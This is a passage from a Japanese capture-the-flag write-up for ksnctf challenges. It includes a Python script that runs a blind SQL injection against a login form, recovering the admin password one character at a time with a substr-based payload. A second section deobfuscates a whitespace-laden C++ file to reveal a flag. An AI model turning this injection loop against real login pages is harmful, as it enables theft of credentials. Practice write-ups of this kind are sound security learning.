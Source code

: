 次に二つ目の手順を達するためのコードを書きました。

- adminのパスワードを一文字目から一文字ずつ特定
```Python
# 1文字ずつ確かめる
checkString = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
flag = ''

for i in range(1,22):
    for k in checkString:
        # なぜか SUBSTRING では動かない
        # SUBSTRING ( expression, start, length )  
        sql = f"' or (SELECT substr(pass, {i}, 1) FROM user WHERE id = 'admin') = '{k}' --"
        data = {"id": "admin", "pass": sql}
        response = requests.post(url,data=data)
        if 'Congratulations' in response.text:
            flag += k
            print(flag)
            break
```

Flagを得ることができました。

余談ですが、`SUBSTRING`で動くかなと思いましたが、なぜか動きませんでした。なぜだろう...

---

## Q7 「Programming」

![ksnctf-q7.png](ksnctf-q7.png)

C++ファイルが一つ。

開いてみるとスペースやタブを使って難読化されたコードが有りました。

とりあえず、スペースとタブをすべて取り除いてフォーマットしてみました。

```cpp
#include <stdio.h>    
#include <string.h>	
	
int main(){
    // F
	const char *s ="     	    ""0123456789""     ""		   "
	"			         							  				 			 ""ABCDEFGHIJ";
	printf("%c",strlen(s));
	// ROG
	int i = 020000000+001000000+000600000+000040000+000007000+000000500+000000020+000000002-000007006;
	printf("%s",&i);
   	// _This_i
	long long l = 2LL*11LL*229LL*614741LL*9576751LL+5LL;
    printf("%s",&l);
    // s_w
	float f	= 1.0962664770776731080774868826855754386638240000e-38f;
    printf("%s",&f);
    // rong_:(
	double d = 6.7386412564254706622868098890859398199406890000e-308;
	printf("%s",&d);
}
```

